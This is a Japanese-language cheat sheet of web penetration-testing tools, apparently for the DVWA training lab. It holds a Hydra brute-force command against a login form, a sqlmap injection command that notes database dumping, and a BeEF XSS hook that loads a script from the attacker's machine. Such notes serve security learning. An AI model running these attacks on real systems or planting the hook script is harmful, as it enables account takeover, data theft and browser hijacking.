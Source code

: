 # ツールの使用

* Hydra
  1. 様々なプロトコルに対応したBruteForce Attackツール
  2. ワードリスト　`/usr/share/wordlists/metasploit`
  3. コマンド例

  ``` shell
      hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
  ```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |

* sqlmap
  1. SQLインジェクションの脆弱性診断ツール
  2. コマンド
     1. BurpSuiteでSQL操作時のリクエストを観測 GETリクエストとCookieでセッションIDを保持しているか。
     2. help `sqlmap -h`
     3. コマンド例 `sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=...; security=low"`
     4. `--dump`でデータベースをダンプ可能
     5. `--data`POSTで実行できる

* BeEF
  1. ブラウザ向けの脆弱性を検証するツール(XSS)
  2. メニューから`Beef start`を選択
  3. XSSでBeEFのスクリプトを実行させて制御を奪う
      `<script src=http://攻撃端末のIPアドレス:3000/hook.js></script>`
  
* Gobuster
  1. WebサイトのURLやDNSサブドメイン名を洗い出すツール
  2. コマンド例
      `gobuster dir -u WebアプリのIP -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -b '' -e`
  3. モード
     1. dir: ディレクトリを列挙するモード
     2. dns: DNSのサブドメインを列挙するモード
     3. vhost: WebサーバのVirtualHostを列挙するモード
  4. オプション
     1. -u: 探索を行う起点のURLを指定する。指定したURLをサブディレクトリを探索させることができる。
     2. -w: ワードリスト(wordlist)の指定、ここで指定したファイルにある文字列を-uで指定したURLに一行ずつくっつけて探索
     3. -s: どのステータスコードが返ってきたらアクセスしたURLが存在すると判定するかを指定できる。
     4. -b: どのステータスコードが返ってきたらアクセスしたURLが存在しないと判定するかを指定できる。(-sを指定した場合は-b ''を指定する必要がある)
     5. -x: 検索するファイル拡張子(dirモードのみ有効) php、txt、htmlファイルを検索したい場合のコマンド例:-x 'php,txt,html'
     6. -e: 見つかったURLの表示に-uで指定したベースのURLを含めて表示する(expand)

* ZAP(Zed Attack Proxy)
  1. プロキシを用いたWebアプリ用の脆弱性診断ツール
  2. 主要機能
     1. スパイダー機能
     2. 動的スキャン機能
     3. ローカルプロキシ機能
     4. ディレクトリ探索機能
     5. アラート機能
     6. ZAP Script機能
  3. 手順
     1. 起動 `zaproxy`
     2. zapウィンドウからfirefoxを起動
     3. firefoxのsettingから`manual proxy configuration`を選択　`HTTP proxy:localhost  Port:8080`
     4. webにアクセス　zapウィンドウ内のサイトに追加される
     5. スキャンモードを`プロテクトモード`にする。
     6. スキャンするURLをコンテキストに追加
     7. スキャンの実行 `攻撃　->　動的スキャン`

